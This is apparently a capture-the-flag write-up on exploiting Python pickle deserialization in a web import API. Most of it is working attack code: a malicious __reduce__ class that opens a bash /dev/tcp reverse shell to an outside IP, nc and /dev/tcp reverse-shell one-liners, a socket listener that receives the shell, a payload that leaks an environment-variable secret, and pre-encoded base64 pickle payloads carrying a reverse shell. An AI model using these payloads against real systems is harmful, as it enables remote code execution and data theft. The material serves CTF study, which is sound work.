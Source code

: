 # python string attack
hint: deserialization

1. normal post:
```py
import pickle
import requests
import base64
def normal_usage(debug=True):
    '''
    this gets accepted by the import api
    '''
    print('normal layout:\n')
    url = 'http://ctf.adl.tw:12004/api/import'
    my_layout = [
        {'id': 'bocchi', 'left': 350, 'top': 180}
        
    ]
    print("typeof mylayout:",type(my_layout))
    my_layout=pickle.dumps(my_layout)
    my_layout=base64.b64encode(my_layout)
    my_layout=str(my_layout,'utf-8')
    print(my_layout)
    if debug:return
    myobj={'layout':my_layout}

    r = requests.post(url, json = myobj)
    
    return
```



2. how to listen to a port on windows(since windows doesn't have nc)
```py
import socket, sys, time
def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)

        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])

listen("127.0.0.1",8081)#port listen
```
3. reverse shell payload
```py
class RCE_revers_shell:
    def __reduce__(self):
        cmd = "bash -c \"bash &>/dev/tcp/87.87.87.87/4444<&1\""
        return os.system, (cmd,)
```
- if nc is available
```sh
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
```
- if there is no nc
```sh
bash &>/dev/tcp/DEST_IP/DEST_PORT <&1
```
- If commands are running in something like sh
```sh
bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"
#this command starts a bash shell, then redirects stdout+stderr to the dest_ip:dest_port, then redirects the stdout into bash as input.
```
4. We can also use os.getenv to leak the flag, then use api/share to print it on screen.
```py
class RCE_get_env:
    def __reduce__(self):
        cmd="FLAG"
        return os.getenv, (cmd,)
```
# Footnotes:
##  file descriptor numbers
    - 0：Standard Input (STDIN)，預設為鍵盤輸入值
    - 1：Standard Output (STDOUT)，預設為終端機螢幕顯示輸出
    - 2：Standard Error (STDERR)，預設為終端機螢幕顯示輸出
## &>name
redirect stdout and stderr to the file name 
## <
A less-than sign (<) represents input redirection. On the other hand, a greater than sign (>) is used for the output redirection. “<” and “>” are also called angled brackets.
For example:
```bash
some_commnand < some_file
```
## Difference between “>” and “>>” in Linux
    - “>” overwrites an already existing file or a new file is created providing the mentioned file name isn’t there in the directory. 
    - “>>” operator appends an already present file or creates a new file if that file name doesn’t exist in the directory. 

## Pickle does not cross OS
- encoded payload looks different across linux and windows.

```py
#this is from a python in ubuntu
#gASVcAAAAAAAAABdlH2UKIwCaWSUjAZoYWtvMDGUjARsZWZ0lE1rBIwDdG9wlIwFcG9zaXiUjAZzeXN0ZW2Uk5SMMGJhc2ggLWMgImJhc2ggJj4vZGV2L3RjcC8xNDAuMTE1LjU5LjE5NS80NDQ0PCYxIpSFlFKUdWEu
#this is from python 3.10 in windows 10
#gASVbQAAAAAAAABdlH2UKIwCaWSUjAZoYWtvMDGUjARsZWZ0lE1rBIwDdG9wlIwCbnSUjAZzeXN0ZW2Uk5SMMGJhc2ggLWMgImJhc2ggJj4vZGV2L3RjcC8xNDAuMTE1LjU5LjE5NS80NDQ0PCYxIpSFlFKUdWEu
#this is from python 3.9 in windows 10
#gASVbQAAAAAAAABdlH2UKIwCaWSUjAZoYWtvMDGUjARsZWZ0lE1rBIwDdG9wlIwCbnSUjAZzeXN0ZW2Uk5SMMGJhc2ggLWMgImJhc2ggJj4vZGV2L3RjcC8xNDAuMTE1LjU5LjE5NS80NDQ0PCYxIpSFlFKUdWEu
#this is from wsl
#gASVcAAAAAAAAABdlH2UKIwCaWSUjAZoYWtvMDGUjARsZWZ0lE1rBIwDdG9wlIwFcG9zaXiUjAZzeXN0ZW2Uk5SMMGJhc2ggLWMgImJhc2ggJj4vZGV2L3RjcC8xNDAuMTE1LjU5LjE5NS80NDQ0PCYxIpSFlFKUdWEu
```
 